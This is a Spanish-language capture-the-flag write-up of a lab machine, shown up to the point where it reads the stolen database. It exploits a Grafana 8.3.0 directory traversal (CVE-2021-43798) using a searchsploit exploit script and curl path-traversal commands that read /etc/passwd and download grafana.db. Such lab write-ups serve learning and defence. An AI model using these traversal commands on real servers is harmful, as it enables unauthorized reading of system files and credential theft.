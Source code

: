 Puerto **22** su servicio por defecto es **SSH**, **80** este puerto en su configuración por defecto corre el servicio **HTTP**, MySQL corre en el puerto **3306** y el puerto 
3000 fue asignado por el **administrador**
## Enumeración
Podemos realizar **FUZZING** para ver si encontramos ninggun directorio, pero esto resultaría inutíl ya que no encontraremos nada, en su lugar podemos usar el puerto que encon
tramos y tratar de acceder a él.
Viendo la web nos encontramos con esto:

![Grafana Login]({{ 'assets/img/commons/ambassador-writeup/grafana.png' | relative_url }}){: .center-image }
_Grafana Login_

Viendo en la parte inferior nos da información acerca de la versión, usando **searchsploit** nos damos cuenta de q
ue cuenta con estas vulnerabilidades ***Directory Traversal*** and ***Arbitrary File Read***

![Searchsploit]({{ 'assets/img/commons/ambassador-writeup/sea.png' | relative_url }}){: .center-image }
_Searchsploit_

Podemos copiar el script de Python en nuestra carpeta de trabajo e intentamos leer el `/etc/passwd`
```bash
❯ searchsploit -m multiple/webapps/50581.py
  Exploit: Grafana 8.3.0 - Directory Traversal and Arbitrary File Read
      URL: https://www.exploit-db.com/exploits/50581
     Path: /snap/searchsploit/62/opt/exploitdb/exploits/multiple/webapps/50581.py
    Codes: CVE-2021-43798
 Verified: False
File Type: Python script, ASCII text executable
Copied to: /home/h4ckerlite/Desktop/h4ckerlite/HTB/Máquinas/Ambassador/nmap/50581.py
```
Lo ejecutamos...

![Searchsploit]({{ 'assets/img/commons/ambassador-writeup/etc.png' | relative_url }}){: .center-image }
_Searchsploit_

Buscando en internet acerca de este **CVE** nos encontramos con este [blog](https://vk9-sec.com/grafana-8-3-0-directory-traversal-and-arbitrary-file-read-cve-2021-43798/), nos
 enseñan a explotarlo de forma manual.
 ```bash
❯ curl --path-as-is http://10.10.11.183:3000/public/plugins/alertlist/../../../../../../../../etc/passwd | grep sh$

root:x:0:0:root:/root:/bin/bash
developer:x:1000:1000:developer:/home/developer:/bin/bash
 ```

 Si seguimos leyendo podemos ver que nos podemos descargar la base de datos

 ```bash
 curl --path-as-is http://10.10.11.183:3000/public/plugins/alertlist/../../../../../../../../var/lib/grafana/grafana.db -o grafana.db
 ```
 Ahora procedemos a leer la base de datos, para ello debes tener instalado **sqlite3** para verlo desde consola, ya que lo considero mas fácil.
